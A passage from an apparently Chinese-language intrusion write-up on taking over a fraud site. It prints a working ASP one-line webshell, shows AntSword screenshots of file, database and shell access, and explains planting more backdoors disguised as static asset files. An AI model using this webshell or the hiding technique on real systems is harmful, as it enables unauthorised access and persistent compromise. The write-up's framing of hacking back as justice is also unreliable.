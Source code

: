 ……，唉，怎么说呢，应该是触目惊心吧，虽然数量没有一些媒体平台时不时报道那些的那么夸张，但也不是一个小数目了，而且每一处记录的银行卡账号、密码、身份证号、手机号、验证码、IP位置这些，都是近乎真实的；我不是正义的制裁者，也没有多少执行正义的力量，最多就热心的帮他们删个库再跑路，个人的力量太小了，所以这些还是都后面交给警察蜀黍处理吧，正义可能会迟到，但不会缺席。


## 0x03 获取权限

### 0x001 Get webshell

暂时先抛开题外话，上面进行到了文件上传这一步，文件上传可以意味着很多事情，可执行文件的上传便可以实现获取服务器的系统操作权限，当然这里的网页应用程序的相关权限一版很低，提权的事就是后话了；当前任务是拿下网站操作权限，即 `webshell`，继续走流程，先上传个简单的 asp 版**一句话木马**：

```asp
<% execute(request("pass")) %>
```

然后就该 **亮剑** 了：

![antsword-add-data-menu](https://img-blog.csdnimg.cn/img_convert/d2202af3b84d8959a2ea2afc9c940605.png)

![antsword-add-data-detail](https://img-blog.csdnimg.cn/img_convert/8d150a379dd79c5e591b54882270b708.png)

![antsword-add-data-success](https://img-blog.csdnimg.cn/img_convert/68ff23b04af39ce9f15cf1f4f8cea8f6.png)

搞定，进去康康：

![antsword-wwwroot-list](https://img-blog.csdnimg.cn/img_convert/798cf01166447fd6e6ba9aeae0bb7eb5.png)

文件相关操作：

![antsword-wwwroot-list-menu](https://img-blog.csdnimg.cn/img_convert/e96a706718816f732f67a8bd96852ed2.png)

![antsword-file-edit](https://img-blog.csdnimg.cn/img_convert/c2877aa2960d9304a6e27b7d1723001a.png)

数据库相关操作（对应之前后台页面的展示数据）：

![antsword-db-bank](https://img-blog.csdnimg.cn/img_convert/816bdbe3efb9ed907bdf26b276e963e3.png)

命令行终端相关操作：

![antsword-cmd-home](https://img-blog.csdnimg.cn/img_convert/acacf5491b371007aec9628e855783af.png)

甚至获取 Windows 系统信息：

![antsword-cmd-systeminfo](https://img-blog.csdnimg.cn/img_convert/6603300342b52e6fdb2540ac88b87f94.png)

好了，这不啥都有了，还要啥自行车，但也不能止步于此，虽然现在拥有了对这整个站点的操作权限，包括文件及数据库的增删改查等，但也不至于为了正义用爱发电，每日蹲点删库删站，我们的目标还在山的那边 (ง •_•)ง

### 0x002 Backdoor

俗话讲，要生于忧患，虽然现在入口打通了，但是凡事都要留一手（我更喜欢留多手），防止木马那天被管理员察觉并清理就尴尬了，所以找几个隐蔽的位置，再上传几个，比如平时几乎不被注意的 css 或图片等静态资源文件夹，js 库文件等，文件命名上也可以花点心思，模仿已有文件或者配置文件之类的，使人有一种一眼看上去是正常文件的幻觉（+_+）；

![antsword-backdoors](https://img-blog.csdnimg.cn/img_convert/92437e2f9f922984e02cc3d03c6a764c.png)
